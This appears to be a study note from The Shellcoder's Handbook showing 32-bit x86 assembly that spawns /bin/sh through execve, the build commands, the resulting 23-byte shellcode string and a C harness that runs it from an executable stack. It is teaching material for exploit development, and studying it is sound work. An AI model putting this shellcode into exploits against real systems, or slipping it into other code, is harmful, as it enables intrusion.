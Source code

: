 # Author:               ramb0
# Book:                 The Shellcoders Handbook
# Name:			spawn_shell 32 bit

# Code for our spawn_shell program in assembly

section .text
global _start

_start:
        xor eax, eax
        push eax                ; string terminator

        ; //bin/sh
        push 0x68732f2f
        push 0x6e69622f
        mov ebx, esp            ; move stack buffer to ebx
        xor ecx, ecx
        xor edx, edx
        mov al, 0xb             ; execve()
        int 0x80

# Compile the assembly code
nasm -f elf spawn_shell.asm
ld -m elf_i386 spawn_shell.o -o spawn_shell32

# Use 'objdump -d ./spawn_shell -M intel' for getting the bytes.
shellcode = ...
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
size of 23 characters

# Testing the shellcode
# Create the file tester.c
tester.c:

include <iostream>

char *shell = "shellcode ...";

int main() {

        void (*func)();
        func = (void(*)())shell;
        (*func)();
}

# Compile the tester and execute
g++ -o shellcode_tester tester.c --no-warnings -m32 -z execstack
./shellcode_tester

